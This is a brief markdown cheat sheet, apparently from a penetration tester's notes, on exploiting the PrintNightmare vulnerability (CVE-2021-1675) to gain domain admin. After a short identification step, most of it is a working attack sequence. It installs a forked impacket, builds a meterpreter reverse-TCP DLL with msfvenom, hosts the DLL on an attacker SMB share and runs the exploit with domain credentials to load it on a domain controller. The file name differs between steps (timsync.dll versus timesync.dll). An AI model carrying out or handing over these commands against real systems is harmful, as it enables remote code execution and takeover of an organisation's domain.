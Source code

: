 ```yaml
---
tags:
  - Domain-Admin
  - Initial-Access
  - Lateral-Movement
  - Privilege-Escalation
  - AD
---
```

[https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)
## Identify
---



```PowerShell
 rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```
```PowerShell
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```
  
## Exploit
---
You need bros version of impacket
```PowerShell
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
**Generate DLL payload**
```PowerShell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT=8080 -f dll > timsync.dll
```
Host payload on smbserver
```PowerShell
sudo smbserver.py -smb2support ITShare share
```
Start listener, execute payload
```PowerShell
sudo python3 CVE-2021-1675.py domain.local/user:'password'@<dcip> '\\<attackhost>\ITShare\timesync.dll'
```